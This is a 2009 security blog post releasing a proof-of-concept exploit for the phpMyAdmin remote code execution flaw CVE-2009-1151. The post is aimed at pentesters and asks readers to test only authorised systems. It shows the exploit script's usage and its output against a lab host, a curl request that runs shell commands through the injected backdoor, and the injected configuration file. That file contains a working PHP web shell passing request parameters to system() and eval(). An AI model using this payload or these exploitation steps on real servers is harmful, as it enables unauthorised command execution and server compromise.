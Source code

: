 ```yaml
---
title: CVE-2009-1151 phpMyAdmin Remote Code Execution Proof of Concept
author: adrian-pastor
date: Tue, 09 Jun 2009 19:03:13 GMT
template: post.jade
category: fucked
---
```


I couldn't find any public PoC/exploit for this [phpMyAdmin](http://www.phpmyadmin.net/home_page/index.php) vulnerability, despite it being a serious bug affecting a popular open-source project. I think this vulnerability is a nice reminder that it's still possible to perform remote command execution these days without relying on SQL injection (i.e.: `xp_cmdshell`) or a memory corruption bug (i.e.: heap overflow).

> All the documentation you need is in the script comments. I recommend you to go through it, before you actually run the script.

After reading the public [advisory](http://www.phpmyadmin.net/home_page/security/PMASA-2009-3.php) and patched code, and playing around for a while, I managed to have a working PoC bash script. The script will allow you to remotely run shell commands and PHP code against vulnerable targets. Although in principle the vulnerability sounds quite simple, it actually took me a while to go from [advisory](http://www.phpmyadmin.net/home_page/security/PMASA-2009-3.php) to working attack code.

I'm providing the script with the hope that it will help pentesters and security researchers. Please only test the script against your own systems, or systems you have been given permission to pentest! Don't be evil, it's not worth it.

## Demo

```bash
$ ./phpMyAdminRCE.sh
usage: ./phpMyAdminRCE.sh <phpMyAdmin_base_URL>
i.e.: ./phpMyAdminRCE.sh http://target.tld/phpMyAdmin/
```

```bash
$ ./phpMyAdminRCE.sh http://172.16.211.10/phpMyAdmin-3.0.1.1/
[+] checking if phpMyAdmin exists on URL provided ...
[+] phpMyAdmin cookie and form token received successfully. Good!
[+] attempting to inject phpinfo() ...
[+] success! phpinfo() injected successfully! output saved on /tmp/phpMyAdminRCE.sh.9217.phpinfo.flag.html
[+] you *should* now be able to remotely run shell commands and PHP code using your browser. i.e.:
    http://172.16.211.10/phpMyAdmin-3.0.1.1//config/config.inc.php?c=ls+-l+/
    http://172.16.211.10/phpMyAdmin-3.0.1.1//config/config.inc.php?p=phpinfo();
    please send any feedback/improvements for this script to unknown.pentester<AT_sign_goes_here>gmail.com
```

```bash
$ curl "http://172.16.211.10/phpMyAdmin-3.0.1.1//config/config.inc.php?c=ls+-l+/"
total 96
drwxr-xr-x   2 root   root  4096 Mar 11 10:12 bin
drwxr-xr-x   3 root   root  4096 May  6 10:01 boot
lrwxrwxrwx   1 root   root    11 Oct 12  2008 cdrom -> media/cdrom
drwxr-xr-x  15 root   root 14300 Jun  5 09:02 dev
drwxr-xr-x 147 root   root 12288 Jun  5 09:02 etc
drwxr-xr-x   3 root   root  4096 Oct 18  2008 home
drwxr-xr-x   2 root   root  4096 Jul  2  2008 initrd
_[partial output removed for brevity reasons]_
```

Contents of `/config/config.inc.php` after our evil code has been successfully injected:

```php
<?php
/*
 * Generated configuration file
 * Generated by: phpMyAdmin 3.0.1.1 setup script by Michal ÄŒihaÅ™ <michal@cihar.com>
 * Version: $Id: setup.php 11423 2008-07-24 17:26:05Z lem9 $
 * Date: Tue, 09 Jun 2009 14:13:34 GMT
 */

/* Servers configuration */
$i = 0;

/* Server  (config:root) [1] */
$i++;
$cfg['Servers'][$i]['host']=''; if($_GET['c']){echo
'';system($_GET['c']);echo '';}if($_GET['p']){echo
'';eval($_GET['p']);echo '';};//'] = 'localhost';
$cfg['Servers'][$i]['extension'] = 'mysqli';
$cfg['Servers'][$i]['connect_type'] = 'tcp';
$cfg['Servers'][$i]['compress'] = false;
$cfg['Servers'][$i]['auth_type'] = 'config';
$cfg['Servers'][$i]['user'] = 'root';

/* End of servers configuration */

?>
```

## Thanks

I'd like to thank [Greg Ose](http://labs.neohapsis.com/2009/04/06/about-cve-2009-1151/) for discovering such a cool vuln and doing a nice writeup about the technical details! Also big thanks to [str0ke](http://www.milw0rm.com/) for testing this PoC script and providing such useful feedback!
